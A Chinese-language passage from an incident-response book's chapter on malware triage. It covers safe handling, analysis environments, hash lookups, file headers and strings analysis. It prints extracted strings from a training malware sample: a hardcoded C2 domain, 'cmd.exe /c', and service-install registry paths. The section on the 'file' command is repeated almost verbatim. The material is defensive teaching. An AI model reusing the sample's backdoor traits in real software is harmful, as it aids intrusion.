3. 在调查一个Windows XP系统时，您找到了操作系统工件，表明攻击者多次运行了heidisql.exe。假设文件名是程序的原始名称，您认为该应用程序是什么？您将检查哪个或哪些注册表键来确定有关攻击者所做的其他信息？
4. 您正在调查一个应用程序在Windows 8系统上创建的工件。您注意到在AppData目录下，该应用程序将信息存储在多个目录中：Local、LocalLow和Roaming。为什么应用程序会这样做？不同的AppData目录（Local、LocalLow和Roaming）有什么目的？

## 第15章 **恶意软件分类**

- *我们在调查的许多事件中发现了恶意软件。大多数人将攻击者用于自己利益的任何程序都称为“恶意软件”，包括公开可用的工具。然而，将攻击者使用的所有程序都称为“恶意软件”并不是一个好主意，因为这个术语太笼统了。我们总是试图进一步对恶意软件进行分类，基于其高级功能。我们使用诸如“后门”、“密码哈希转储器”、“权限提升器”和“端口重定向器”之类的术语。从高级别理解和标记恶意软件的功能，可以更好地了解攻击者试图达到的目标。如果没有这个理解，术语“恶意软件”就没有什么意义。

因此，当我们发现恶意软件时，我们心中首先出现的问题是：“这个恶意软件做什么？”如果没有这个问题的答案，您将很难对恶意软件进行分类或了解攻击者试图实现的目标。本章介绍了基本的恶意软件分类技术，这些技术应该能帮助您得到这个问题的答案。我们涵盖了恶意软件处理、设置分类环境、静态分析和动态分析。本章不深入介绍恶意软件分析，因为有许多其他优秀的资源可用，比如书籍《实用恶意软件分析》（No Starch Press，2012）。相反，我们专注于在事件中帮助您，作为事件响应者，快速获取答案的内容。

请记住，您的团队应该确定每个文件分析的目标。生成的情报应该是可操作的；否则，这个过程只会浪费时间。结果可以帮助生成可用于扫描更多系统的威胁指标。在其他情况下，IR团队可以了解攻击者的方法、技术或动机。如果在分析完成后没有可操作的情报，您应该重新评估分析的执行方式或是否有必要进行分析。

- 警告：我们在本章的早期就感到有必要警告您在对恶意软件进行分类时的危险性。处理和对恶意软件或未知文件进行任何类型的分析都是有风险的！您可能会意外或无意中感染您的计算机或他人的计算机，可能会造成严重的损害。尽管本章中提供的提示应该有助于保护您免受意外感染，但不能保证完全安全。每当在本书中讨论进行分析或查看恶意软件时，都默认这些行为始终在安全环境中进行，如隔离的虚拟机。请自行决定是否继续！

### **恶意软件处理**

既然您已经被警告处理恶意软件和未知文件的危险性，让我们介绍一些您需要考虑的提示，以帮助防止意外事故并增强分类过程。您应该结合组织的指导以及自己的常识来制定一个恶意软件处理协议。

该协议应该涵盖与恶意软件处理有关的所有方面，从在对可疑的恶意软件文件进行任何操作之前，到在案件结案后的最终存储或处置。包括安全性、文档记录、分发和访问恶意网站等内容。

#### **安全性**

为了降低系统感染恶意软件的可能性，我们通常采取两类主要措施：

1. 使用虚拟环境进行分类。

   永远不要在主要操作系统上打开或对可疑的恶意软件进行分类。相反，您应该配置并使用一个隔离的虚拟或物理环境。

   1. 创建一个带有您选择的操作系统的虚拟机，加载所有需要的分析软件和工具，并创建一个已知干净的快照。快照保存虚拟机的状态，类似于检查点。您可以随时恢复到该检查点。
   2. 保持虚拟化软件的更新。
   3. 最好禁用“方便”功能，如拖放和剪贴板共享。只有在虚拟机处于已知干净状态时才使用这些功能。
   4. 确保虚拟环境是隔离的。您可以配置隔离的虚拟网络来模拟连接或服务，但虚拟机不应该访问您想保持干净的网络。除非已恢复到已知干净的快照，否则不要允许虚拟机访问互联网。要在虚拟机中更新软件，大多数虚拟化软件允许您将文件从主机拖放到虚拟环境中。
   5. 分析完成后，立即将虚拟机恢复到已知干净的起始状态。

2. *进行配置和过程更改。* 我们进行了一些配置和过程更改，以大大减少我们感染系统的恶意软件的可能性：

3. 使用最新版本的主操作系统。

4. 确保您的系统已完全打补丁和更新，包括第三方软件。

5. 禁用预览视图，例如Windows资源管理器中的预览窗格。即使只是文件的预览也可能导致感染。

6. 禁用自动运行或自动挂载功能。

7. 明显标记用于传输疑似恶意软件的介质。USB闪存驱动器使用方便，但由于其尺寸较小，很难显眼地标记。更理想的解决方案是使用一个用大号、粗体、红色字体标记的CD，清楚地指示介质包含疑似恶意软件。还要包括带有MD5的文件清单，以便验证内容。

8. 在非特权用户登录时处理疑似恶意软件。

9. 在疑似恶意软件文件扩展名末尾添加下划线。例如，将扩展名“.exe”更改为“.exe_”，以防止意外执行或打开。在Apple OS X中，您还需要更改文件类型属性，以防止本机应用程序意外打开。

10. 将所有疑似恶意软件和恶意软件存档存储在一个拒绝执行并且只允许非特权用户访问的目录中。

11. 始终将疑似恶意软件存储在受密码保护和加密的存档中，例如ZIP或RAR。使用一个常见的密码，如“infected”；不是为了保护内容，而是为了防止意外执行或删除。防止意外删除可能听起来并不重要，但安全软件（如防病毒软件）可能在不提示的情况下删除恶意软件。

12. 除非在虚拟机或其他隔离的分析环境中操作，否则不要访问疑似恶意软件。唯一的例外是最初将文件保存到硬盘，计算MD5，创建存储存档并将存档传输到分析环境。我们甚至建议在三审环境中避免计算校验和或查看字符串。您应该养成仅在三审环境中处理恶意软件的习惯。

#### **文档**

将恶意软件样本交给别人，并说“自己解决”并不是进行恶意软件分析的理想方式。调查员应该传递有助于恶意软件分析的细节，而恶意软件分析师应该在细节不足时向调查员提问。在处理恶意软件时，您应该始终确保记录或传递与上下文相关的细节。以下是在记录上下文时思考的一些有用的问题：

- 如何确定文件？例如，安全产品（如防病毒软件）是否对文件发出警报？还是调查员通过某种分析找到了该文件？如果是这样，是什么导致他们找到它？
- 操作系统版本如何，包括补丁级别和地址宽度（有时称为“位数”），32位还是64位？
- 原始文件名是什么，恶意软件所在的目录是什么？还包括MD5或其他适当的校验和（例如SHA256）。
- 根据校验和，该文件是否“已知”-是否属于已编目文件的数据库？
- 是否存在其他可能与之相关的文件，因为它们在位置或时间上相邻？
- 法庭鉴定或其他调查结果是否暗示了恶意软件可能是什么（例如相关的网络发现，如端口或协议）？
- 是否有命令行执行或命令和控制机制的证据？
- 如果认为恶意软件是持久存在的，是否有证据表明持久性机制是什么？
- 在查看时间线时，是否看到任何在安装或疑似使用的时间附近创建/修改/访问的项目，例如文件或注册表键？
- 调查中还发现了哪些类型的恶意软件？
- 调查是否发现了将威胁归因于任何特定威胁的证据？
- 是否有证据表明攻击者正在积极使用恶意软件？是否有证据表明事件仍在继续？

这些问题中的一些可能看起来与恶意软件分析无关或过于简单，但它们提供的上下文事实无法通过对恶意软件的分析确定。在某些情况下，这些事实可能大大减少初步分析的时间。我们以前吃过亏，未能记录上下文证明是一个代价高昂的错误。

#### **分发**

我们发现许多组织通常不仅向其防病毒软件供应商提供恶意软件，而且还向其他可信方或公共网站提供。当您处于危机之中并寻求答案时，很难抵制这些途径可能提供的帮助。在许多情况下，您别无选择。但我们建议您暂停一下，考虑向组织外部的任何人提供恶意软件可能带来的可能的负面后果。

您可能会想，会有什么负面后果呢？请考虑到很多攻击都是一种猫鼠游戏。一旦攻击者知道你的底牌，他们更有可能改变他们的行动方式。在这种情况下，您可能已经让他们知道您发现了他们的恶意软件。其他考虑因素可能包括以下内容：

- 在针对性攻击中，恶意软件可能包含明确识别您组织的信息。这些信息甚至可能包括用于通过内部代理服务器进行身份验证以获取互联网访问权限的用户名和密码。您是否希望将这些信息提供给任何您提供恶意软件副本的人？或者提供给他们提供恶意软件的人？大多数恶意软件调查站点由防病毒软件供应商运营或与之签订信息共享合同。您是否愿意公众可能能够根据恶意软件中的信息推断出您的组织遭受了入侵？
- 如果防病毒软件或其他安全供应商创建了一个自动部署的签名或对策，那么这是否会中断您的调查或纠正计划？我们发现，大多数安全供应商针对单个恶意软件的对策是不完整的，并且通常不能解决整个问题-这种部分修复通常会提醒攻击者有人已经发现了他们，并在长远计划中给您带来额外的工作。
- 您的组织是否制定了灾难恢复计划，并且经过测试已被证明有效？如果攻击者得知他们被发现，他们可能会决定采取破坏性行动。您的组织应该考虑这可能造成的影响以及您是否有准备从中恢复过来。

我们并不建议将恶意软件保留给自己-我们只是指出您必须权衡风险和考虑因素。当您向外部方提供恶意软件时，请确保在适当的考虑和准备后按照您的条件进行。

#### **访问恶意网站**

想象一下这种情况：你正在检查一台被恶意软件感染的系统。你正在审查时间线，并且发现在恶意软件创建之前，用户浏览了一个你不认识的网站。接下来你会做什么？也许你会在你的工作电脑上访问这个网站？或者尝试“反击”？不管你相信还是不相信，我们确实已经看到一些组织这样做过。这种情况发生得足够频繁，以至于我们不能不提醒大家：*一般来说，你不应该访问恶意网站*。有几个原因，其中一些可能会影响你的组织，一些可能会影响其他组织：

- 你可能会感染你的计算机，导致很多糟糕的事情发生。
- 你可能会泄露给攻击者的线索。
- 你可能会将自己标识为一个目标。
- 这个“恶意网站”可能只是另一个受害者。
- 你可能会干扰善意人士的运作。
- 你可能会违法。我们曾经见过一些组织认为使用他们观察到的攻击者使用的凭据来访问互联网上的其他系统是合理的。在大多数情况下，这可能不是一个好主意。

一些组织决定这些风险对他们不适用，或者他们已经减轻了风险。我们听说的一些减轻措施包括使用代理网络（如Tor），在家中访问网站（这只是转移了风险），以及其他一些原因。在非常罕见的情况下，其中一些步骤可能是合适的。总的来说，在访问可能是恶意网站之前，你应该权衡这些严重的问题。一旦你采取行动，它就无法撤销。而且如果你确实采取行动，请确保有一个已建立的授权行动的过程，并记录你执行行动的日期和时间。

- 注意：

  想要迅速丧失安全权限，并面临刑事起诉和/或民事责任，尝试“反击”（包括试图识别和/或删除从其他可能被入侵的服务器中“你的”信息）是一种快速方法。向执法部门报告你的担忧，通过与相关域名所有者的法律顾问协调解决这个问题。试图自行解决问题可能会产生极其不利的后果。

在这里需要记住的一个明确原则是，如果涉及到凭据。如果你的团队监控到了使用凭据的出站连接（例如FTP帐户）并决定检索传输的文件，那么在美国的《计算机欺诈和滥用法》（18 USC第1030节）下，他们将犯下重罪。这适用于任何目的，即使你追踪的是被盗的自己的数据。大多数IT安全人员宣传“将攻击带给攻击者”的想法，他们在应急响应或法律事务方面往往没有太多经验，对你的响应影响应该很小。

### **分析环境**

正如我们在恶意软件安全部分提到的，你应该只在指定和适当配置的分析环境中进行恶意软件分析。我们认为有两种主要环境适用于分析：物理系统在一个隔离（气隔）的物理网络上，以及虚拟系统在通过软件配置隔离的虚拟网络上。让我们简要讨论一下每种环境的优缺点，然后进入设置我们首选环境的部分。

首先，我们来看物理环境。所谓的“物理环境”，是指在硬件上直接运行的操作系统中进行分析的环境（没有虚拟化）。你还需要一些网络设备，如以太网交换机和电缆，以及键盘、显示器和鼠标。你还需要一个设置设备的地方。访问设备应该受限制，以防止流浪的网络管理员试图“修复”任何东西。然后，你需要一种安排使用资源的方式。最后，你需要一种在每个分析会话后将系统恢复到已知状态的方法。在一些组织中，建立这样一个环境是轻而易举的——硬件、软件和空间都是随时可用的。然而，我们认为大多数组织都在寻求一种更经济的方法。本章的其余部分只讨论虚拟分析环境。

在虚拟环境中，你在虚拟机中进行分析。虚拟机需要虚拟化软件和一个物理系统来托管环境，通常是员工的计算机。这个配置不需要额外的物理硬件或空间，尽管如果内存或硬盘容量不足，你可能需要升级。此配置的一个优点是非常灵活——你可以轻松添加、删除或重新配置虚拟系统和网络。它还消除了资源争用，因为每个执行恶意软件分析的人都可以配置自己的个人环境。使用快照可以轻松将虚拟环境恢复到已知的良好状态，这有助于实验和消除案例之间的交叉污染。前面提到的一个潜在的缺点是，在某些情况下，恶意软件在虚拟环境和物理环境中的行为可能不同。在这种情况下，你可能会在进行分析时遇到困难，或者基于你在虚拟环境中的事实而误解功能。其中大多数情况都可以根据特定情况进行处理。总的来说，我们认为使用虚拟环境来进行恶意软件分析很可能是最方便和经济的方式。不过，请记住，在某些情况下可能需要物理硬件——有时恶意软件在物理硬件和虚拟系统上的执行方式可能不同。因此，即使你的组织可能不在物理环境中进行恶意软件分析，也可能值得探索一下临时设置物理环境的情况。

- 注意：

  我们有时会听到类似于“你不应该使用虚拟环境来分析恶意软件，因为恶意软件可能在虚拟机中的功能不同。”虽然对于某些恶意软件来说这可能是真的，但实际上并不常见。想想今天IT世界对虚拟化的广泛应用。一些组织不仅将服务器环境虚拟化，还将桌面环境虚拟化。如果恶意软件在虚拟环境中无法正常工作，其效力将受到严重限制。对于恶意软件分析，我们不需要考虑恶意软件在虚拟机中运行方式不同的问题。如果你怀疑恶意软件可能是“虚拟感知”的，有经验的恶意软件分析师可以提供帮助。处理虚拟感知恶意软件对他们来说通常是很容易的。

#### **设置虚拟环境**

设置虚拟环境的第一步是选择要使用的虚拟化技术。有许多免费和付费的产品可供选择。像VMware、Microsoft、Parallels、Citrix和Oracle这样的厂商都提供了多种虚拟化解决方案。有些解决方案需要专用主机，这并不理想。我们更喜欢使用VMware Workstation，因为它在实用功能和成本之间提供了良好的平衡。特别是能够创建和恢复“快照”，以及配置多个隔离的虚拟网络非常方便。Oracle的VirtualBox是一个不错的免费选择。它没有VMware那么多的好功能，但不断在改进。由于技术随时间而变化，以下是在选择和配置虚拟环境时要记住的一些一般考虑因素：

- 支持现代和旧版本的操作系统。
- 支持不同的架构（例如x86和ARM）。
- 支持快照概念，以便轻松恢复更改。
- 保护机制，使被感染的虚拟机不能在虚拟环境之外造成损害，如隔离网络。
- 方便的功能，例如在主机和客户机之间轻松传输文件的方法。请记住，只有在机器处于干净状态时才能使用这些功能。

我们通常使用Microsoft Windows XP作为我们用于Windows恶意软件的诊断环境。在安装操作系统补丁和诊断应用程序之后，您应该创建虚拟机的快照。快照保存了虚拟机的状态，您可以使用它来恢复到已知的干净状态。在每个诊断会话开始时，您应该恢复到干净状态。

一旦您设置好了环境，我们就可以开始处理可疑的恶意软件了。静态分析和动态分析是我们将要介绍的两种恶意软件分析方法。在接下来的几节中，我们将介绍使用这两种方法的基础知识。请确保熟悉这两种方法，因为有时候其中一种方法比另一种方法产生更好的结果。

### **静态分析**

恶意软件分析的两大常见类别之一是静态分析。在这种类型的分析中，我们使用不执行代码的方法来检查文件。这种类型的分析通常提供了对可执行文件基本功能的快速评估。然而，由于代码可能非常复杂，在诊断环境中使用这种方法通常无法揭示程序的全部细节。

#### **那是什么文件？**

现在您有一个安全的环境来检查文件了，是时候动手了。在调查过程中，我们经常会识别出一些我们有兴趣仔细查看的文件。有时我们可能有坚实的上下文证据表明一个文件是恶意的。其他时候，一个文件之所以引起兴趣，可能是出于一些不太确凿的原因，更多的是凭直觉。恶意软件的来源也有很多，包括取证分析、实时响应、杀毒软件系统、网络监控解决方案等等。您可能会遇到的第一个挑战之一是确定一个文件的一般性质，并使其处于提供有用信息的状态。让我们稍微谈一谈我们所指的是什么。

恶意软件有各种形式和大小。重要的是要意识到一个文件的名称或扩展名并不能确定其用途。例如，可执行文件不一定具有“exe”扩展名，而具有“exe”扩展名的文件不一定是可执行文件。另外，恶意软件并不总是直接可执行的文件。我们所说的“直接可执行”是指操作系统可以直接从文件中加载指令，并且CPU可以本地运行这些指令。例如，Python和Visual Basic等解释性语言的脚本不是直接可执行的，需要使用其他程序将这些脚本转换为CPU可以执行的内容。共享库是另一个例子，但在这个上下文中与解释性语言脚本稍有不同。共享库通常包含CPU可以执行的代码，但必须先被另一个程序加载。还有一些恶意软件是“压缩”或加密的。在其他情况下，一些捕获和保留恶意软件的系统（如杀毒软件或安全产品）会将恶意软件编码为专有格式，以防止执行。这些和其他因素可能会导致在确定一个文件的内容和作用时遇到重大障碍。

#### **查询信息**

在尝试完成某项任务时，节省大量时间的一种有效方法是作弊。好吧，我们并不是要鼓励您真的作弊，而是恰当地使用他人的成果。有许多已知文件数据库已经编制了数百万个其他组织已经检查过的文件。为什么不在投入自己的时间进行分析之前先使用它们呢？

在研究文件时，确保您引用的是确切的文件的最常见方法是使用加密哈希。尽管文件名可能有用于搜索，但哈希唯一标识文件的内容。用于标识文件的常见哈希算法是消息摘要算法5（MD5）哈希。较新的算法系列，如安全哈希算法1（SHA1）和SHA2，也可用，尽管并非所有服务都使用SHA哈希。这些哈希算法之间的主要区别在于SHA哈希更加健壮，并且哈希冲突（同一个哈希值对应两个不同文件的情况）的可能性要小得多。不过，不用太担心，这个问题影响调查的可能性极低。

您需要一个哈希工具来生成文件的MD5哈希值。基于Unix的操作系统通常内置了一个或多个哈希工具。常见的可执行文件名是md5、md5sum、sha1sum等。Windows不提供本机的哈希工具，所以您需要下载一个。如果您安装了Cygwin环境，常见的哈希工具已包含其中。最后，您可以使用第三方工具，如md5deep、DigestIT2004或WinMD5。

**从网络上获取**

**md5deep** [md5deep.sourceforge.net](http://md5deep.sourceforge.net/)**DigestIT2004** [www.colonywest.us/digestit](http://www.colonywest.us/digestit)**WinMD5** [www.winmd5.com](http://www.winmd5.com/)

一旦计算出哈希值，就可以开始查询信息了。最著名的资源有Bit9的FileAdvisor、VirusTotal、ThreatExpert和美国国家标准与技术研究所（NIST）的国家软件参考库（NSRL）。无论何时检查一个未知文件，使用这些数据库中的一个进行搜索可能是一个很好的第一步。

**从网络上获取**

**FileAdvisor** [fileadvisor.bit9.com](http://fileadvisor.bit9.com/)**VirusTotal** [www.virustotal.com](http://www.virustotal.com/)**ThreatExpert** [www.threatexpert.com](http://www.threatexpert.com/)**NSRL** [www.nsrl.nist.gov](http://www.nsrl.nist.gov/)

Bit9的FileAdvisor搜索功能是免费使用的，但限制了每天可以执行的查询数量。如果您有较高的查询需求，您需要联系Bit9寻求解决方案。VirusTotal和ThreatExpert提供了更多功能的搜索能力——您可以查询与恶意软件或找到的文件相关的文件名和其他属性。它们还提供了更全面的结果，有时包括对恶意软件的详细分析。NSRL数据库是免费下载的，但NIST没有提供查询功能。SANS提供了一个公共的NSRL查询服务，尽管它只允许您提交一个哈希值。另一种方法是下载数据库文件，并使用诸如GREP之类的工具对其进行搜索。如果您打算进行大量的搜索，那种方法并不实际。相反，您应该考虑将NSRL文件加载到数据库中，对哈希列创建索引，并执行基本的SQL查询。另一个名为nsrlquery的NSRL搜索解决方案是公开可用的，并提供了客户端-服务器搜索模型。如果您不想设置服务器，我们在编写本书时有一个公开可用的服务器，由一个名为Kyrus的公司运营。您可以在他们的网站上了解更多关于nsrlquery工具的信息。

**上网查找**

**无散列查找** [isc.sans.edu/tools/hashsearch.html](http://isc.sans.edu/tools/hashsearch.html)**Nsrlquery工具** [nsrlquery.sourceforge.net](http://nsrlquery.sourceforge.net/)**Kyrus公共Nsrlquery服务器信息** [www.kyrus-tech.com/nsrlookup-service-beta](http://www.kyrus-tech.com/nsrlookup-service-beta)

同时，通过流行的搜索引擎（如Google）搜索散列也是值得尝试的。但请注意正确解读结果。 很多时候，没有计算机安全背景或必要经验的人会发布可能导致错误结论的信息。某些文件名或其他字符串可能经常出现在恶意软件中，但并不一定与恶意软件本身相关。还要记住，某些攻击者会为每个受害者定制恶意软件，因此即使恶意软件可能很常见，其确切散列值可能并不相同。

手动查询散列的效率并不高。然而，在大多数调查中，您不应该在任何时候需要查询大量散列值。如果您需要检查数百个文件，可能有其他方法可以减少您需要查看的内容。

#### **文件头**

文件的“头部”是文件开头的几个字节，可以帮助确定文件的类型。文件头有时也称为“魔数”。文件头中的字节数因文件类型而异，但通常根据数据的前16个字节可以确定文件的类型。例如，如果遇到以两个字节0x4D5A（“MZ”）开头的文件，那么该文件很可能是可在Microsoft操作系统上运行的可执行文件。有一些工具可帮助您确定文件的类型，在本节中我们将介绍两种工具：FileInsight（来自McAfee的优秀十六进制编辑器）和“file”命令。

通常，当我们对未知文件进行初步分析时，第一步是在优秀的十六进制编辑器中打开文件并检查文件头。我们首选的免费编辑器是McAfee的FileInsight，而有偿的选择是010 Editor，但还有其他很多好的选择。

**上网查找FileInsight** [www.mcafee.com/us/downloads/free-tools/fileinsight.aspx](http://www.mcafee.com/us/downloads/free-tools/fileinsight.aspx)**010 Editor** [www.sweetscape.com/010editor](http://www.sweetscape.com/010editor)

随着您对文件的检查经验的增加，您将开始迅速注意到一些模式。例如，如果您打开的文件以“MZ”开头，在16进制偏移80到100附近有“PE”，并且在16进制偏移1F0附近有“.text”、“data”、“.rsrc”或类似的字符串，那么这些都是可移植可执行（PE）文件的特征。使用十六进制编辑器，您只需通过扫描在十六进制视图中显示的初始数据，就可以迅速注意到这些字符串（见图15-1）。

如果您希望文件是可执行文件，但却没有看到这些字符串，那么该文件可能不是可执行文件。或者它可能已经被篡改或以某种方式进行了编码。您将需要尝试另一种技术，比如使用“file”命令，来尝试找出文件的类型。

“file”命令起源于Unix世界，不是Windows的本地组件。它依赖于一个提供“魔数”列表的“魔法”文件，用于识别特定文件类型。为了在我们的Windows调查虚拟机中使用“file”命令，我们安装了一个名为Cygwin的类Unix环境。Cygwin提供了一个相当全面的类Unix环境，包括一个带有许多常见Unix命令（如cut、sed、awk、less、vi和file）的BASH shell。

**上网查找[www.cygwin.com](http://www.cygwin.com/)**


当您安装Cygwin时，请确保选择“file”软件包，因为它不是默认安装的。一旦您的系统上有了该命令，使用起来非常容易，只需指定要检查的文件名即可。例如，如果您想查看C:\Windows目录中的所有文件，您可以运行以下命令：

```jsx
file /cygdrive/c/Windows/*
```

用户命令的完整输出很长，但这里有一些片段，说明了使用文件命令根据文件头标识文件的有用性：

```jsx
twunk_16.exe: MS-DOS executable, NE for MS Windows 3.x
twunk_32.exe: PE32 executable (GUI) Intel 80386, for MS Windows
Vss: directory
win.ini: ASCII text, with CRLF line terminators
WMSysPr9.prx: Little-endian UTF-16 Unicode text, with CRLF line terminators
write.exe: PE32+ executable (GUI) x86-64, for MS Windows
```

以下是从C:\Windows\system32目录中选择的一些文件的输出：

```jsx
appmgr.dll: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
C_037.NLS: data
ipconfig.exe: PE32 executable (console) Intel 80386, for MS Windows
PerfCenterCpl.ico:      MS Windows icon resource - 9 icons, 48x48, 256-colors
```

如您所见，文件命令的输出非常有用。然而，有时工具无法确定文件的类型。在这些情况下，它通常会显示一个通用类型，如“数据”或“ASCII文本”。在一些罕见情况下，文件命令会错误地识别类型。文件命令可能会说“ASCII文本”，而实际上文件是未被识别格式中的压缩数据，恰好在文件开头包含ASCII文本。因此，尽管文件命令通常非常有用，但它并不总是正确的。您应该通过手动检查或其他技术来验证其结果。

有时候，十六进制编辑器和文件命令可能无法提供任何有用的信息。当一个文件在常见数据库中无法识别时，您可能需要进行一些研究。如果您在文件开头看到一个独特的字符串或十六进制字节序列，那么可能在互联网上有一些有用的信息。使用一个流行的搜索引擎搜索这些字符串或十六进制字节序列，您可能会有幸找到一个好的资源。例如，也许您有一个名为ufile.bin的文件，文件命令产生以下输出：

安装Cygwin时，请确保选择“file”软件包，因为它不是默认安装的。一旦您的系统上有了该命令，使用起来非常简单 - 只需指定要检查的文件名。例如，如果您想查看C:\Windows目录中的所有文件，可以运行以下命令：

```jsx
file /cygdrive/c/Windows/*
```

该命令的完整输出很长，但以下是一些摘录，用于说明文件命令根据文件头识别文件的有用性：

```jsx
twunk_16.exe: MS-DOS executable, NE for MS Windows 3.x
twunk_32.exe: PE32 executable (GUI) Intel 80386, for MS Windows
Vss: directory
win.ini: ASCII text, with CRLF line terminators
WMSysPr9.prx: Little-endian UTF-16 Unicode text, with CRLF line terminators
write.exe: PE32+ executable (GUI) x86-64, for MS Windows
```

以下是C:\Windows\system32目录中一些文件的输出：

```jsx
appmgr.dll: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
C_037.NLS: data
ipconfig.exe: PE32 executable (console) Intel 80386, for MS Windows
PerfCenterCpl.ico:      MS Windows icon resource - 9 icons, 48x48, 256-colors
```

正如您所见，文件命令的输出非常有用。然而，有时工具无法确定文件类型。在这些情况下，它通常会显示一个通用类型，如“数据”或“ASCII文本”。在一些罕见的情况下，文件命令可能会错误地标识类型。文件命令可能会说“ASCII文本”，而实际上文件是未被识别格式中包含ASCII文本开头的压缩数据。因此，尽管文件命令通常非常有用，但并不总是正确的。您应该通过手动检查或其他技术来验证其结果。

有时，十六进制编辑器和文件命令提供不了任何有用的信息。当常见数据库无法识别文件时，您可能需要进行一些研究。如果在文件开头看到一个唯一的字符串或十六进制字节序列，可能在互联网上有有用的信息。使用热门搜索引擎搜索这些字符串或十六进制字节序列，您可能会有幸找到一个好资源。例如，也许您有一个名为ufile.bin的文件，文件命令产生以下输出：

```
$ file ./ufile.bin
ufile.bin:        data
```

那个输出并不是很有帮助，所以我们会继续使用十六进制编辑器查看文件头。在FileInsight中查看文件时，我们可以看到图15-2中显示的数据位于文件开头。

你应该立即注意到了字符串“$SDI0001”。然而，这可能不太熟悉...至少对我来说不熟悉。所以我们在我们最喜欢的搜索引擎中搜索“$SDI0001”。返回的第一个结果的标题是“SDI文件格式规范 - 从LAN引导 - [reboot.pro](http://reboot.pro/)”，并链接到http://reboot.pro/4182/上的一个博客文章。该信息表明该文件实际上是一个引导镜像。该网站提供了一些关于魔术签名为$SDI0001的文件的详细信息，它似乎与ufile.bin文件中的其余数据匹配。这篇文章甚至包括了C语言风格的结构定义，概述了头部的每个部分包含的内容。在这种情况下，该文件实际上并不具有恶意性，它只是一个无线路由器固件镜像的副本。我们能够快速追踪到该文件是什么，并且只需要相对较少的努力。


#### **字符串**

检查文件中的字符串是一种简单但有时非常有效的方法，可以了解文件的更多信息。我们通常使用一个工具来删除所有不可打印的字符，并只显示长度达到一定最小值的文本块。在Unix世界中，这个工具被恰当地命名为"strings"，并且在大多数Unix版本中都是原生支持的。Windows没有原生的等效工具；然而，Cygwin提供了strings命令，您也可以使用第三方工具，如iDefense恶意代码分析包或Microsoft SysInternals strings工具。一个重要的考虑因素是选择一个支持除ASCII编码方案之外的工具。Unicode是一种常见的字符串表示格式，任何体面的strings工具都必须能够显示ASCII和Unicode字符串。

**在网上获取它 恶意代码分析包** [github.com/dzzie/MAP](http://github.com/dzzie/MAP)

**SysInternals strings** [technet.microsoft.com/en-us/sysinternals/bb897439.aspx](http://technet.microsoft.com/en-us/sysinternals/bb897439.aspx)

让我们使用strings来查看一个文件，以确定它是什么。我们下载了作为书籍《实用恶意软件分析》的一部分的实验示例。在这种情况下，我们正在查看Lab03-02.dll。如果我们运行Cygwin文件命令，我们会得到以下输出：

```
$ file Lab03-02.dll_
Lab03-02.dll_: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
```

根据标题，这个文件似乎是一个标准的32位Windows DLL。如果文件没有被打包，并且作者没有采取措施来混淆功能，字符串应该是有帮助的。如果你在一个二进制文件上运行strings命令，你可能会注意到有很多不相关的字符串。下面是我正在查看的文件开头出现的几个字符串：

```
!This program cannot be run in DOS mode.
Rich
.text
`.rdata
@.data
.reloc
QQSUVW3
Hu4S
PSUV
j@SU
D$ 3
|$%Y
D$$SPh
```

Windows可执行文件的开头通常包含与PE头部相关的节名称和其他字符串。这些字符串通常没有太多帮助，尤其是当它们包含常见的节名称，如“.text”和“.data”时。接下来，通常会有一些随机字符串，直到出现包含标准API函数名称的区域为止。这些字符串通常表示在可执行文件的源代码中引用的API调用，其中一些可能暗示了恶意软件的功能。例如，这个文件的字符串包含了ReadFile，这表明这个可执行文件可能从本地文件中读取。此外，字符串InternetConnectA和InternetReadFile表明这个可执行文件可能与系统进行网络连接。如果对一个函数名称不熟悉，可以参考微软开发者网络上的广泛文档。

```
GetModuleFileNameA
Sleep
TerminateThread
WaitForSingleObject
GetSystemTime
CreateThread
GetProcAddress
LoadLibraryA
GetLongPathNameA
GetTempPathA
ReadFile
InternetReadFile
HttpQueryInfoA
HttpSendRequestA
HttpOpenRequestA
InternetConnectA
InternetOpenA
```

**在网上找吧 MSDN** [msdn.microsoft.com](http://msdn.microsoft.com/)

接下来，你可能会看到一些额外的随机字符串，直到你看到一段可读的文本，其中可能包含更多与恶意软件作者编写的代码相关的独特字符串。这些字符串可以帮助澄清先前的发现，比如InternetConnectA字符串。在MSDN上的研究显示，InternetConnectA需要一个参数来指定要连接的服务器名称。因此，在文件的字符串中，你可能会找到一个服务器的IP地址或域名。虽然这并不总是正确的（有时参数是混淆的或动态生成的），但随时保持警惕总是好的。在这个例子中，我在文件中找到了以下字符串：

```
Install
ServiceMain
UninstallService
installA
uninstallA
practicalmalwareanalysis.com
serve.html
CreateProcessA
kernel32.dll
.exe
HTTP/1.1
quit
exit
getfile
cmd.exe /c
Parameters
Type
Start
DisplayName
Description
Depends INA+, Collects and stores network configuration and location
information, and notifies applications when this information changes.
ImagePath
%SystemRoot%\\System32\\svchost.exe -k
SYSTEM\\CurrentControlSet\\Services\\
Intranet Network Awareness (INA+)
%SystemRoot%\\System32\\svchost.exe -k netsvcs
OpenSCManager()
SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Svchost
IPRIP
```

根据这些字符串，您可以得出一些可能的推论：

- 恶意软件的硬编码是连接到特定主机的。*正如我们之前提到的，我们预期会看到一个服务器名称，可能会作为InternetConnectA调用的一部分使用。我们看到列表中出现了字符串“[practicalmalwareanalyis.com](http://practicalmalwareanalyis.com/)”，以及一个HTML页面的名称（serve.html）。这可能意味着恶意软件连接到practicalmalwareanalyis.com并请求serve.html。
- 恶意软件将自己安装为Windows服务。*文件中有一些通常与Windows服务相关的字符串，包括Parameters、Type、DisplayName，以及用于服务的标准Windows注册表路径。
- 恶意软件可能提供下载和Shell功能。*字符串“cmd /c”通常与运行命令行命令相关联。字符串getfile和CreateProcessA表明恶意软件可能能够下载并执行由攻击者指定的文件。

虽然许多经验丰富的逆向工程师可能会嘲笑通过字符串分析做出这样的结论，但实际上，这种类型的分析通常非常有帮助。有经验的调查人员可以根据字符串分析做出相当准确的推论。只需记住，字符串永远无法揭示整个情景，并且有时可能故意误导。

- 警告：

  请注意，恶意软件编写者有时会采取措施来混淆恶意软件中的字符串。仅因为您在代码中没有看到特定的字符串存在，并不意味着它不存在。恶意软件作者还可能插入旨在误导您的字符串。您不应过于相信字符串的解释。字符串可能会给人以很大的暗示，但逻辑和代码路径更为重要。

#### **带编码的文件**

有时我们会遇到包含多个级别编码的脚本或其他恶意软件。编码通常有两个主要目的：避免被检测和混淆功能。这在Webshell中非常常见。例如，看看以下PHP代码：

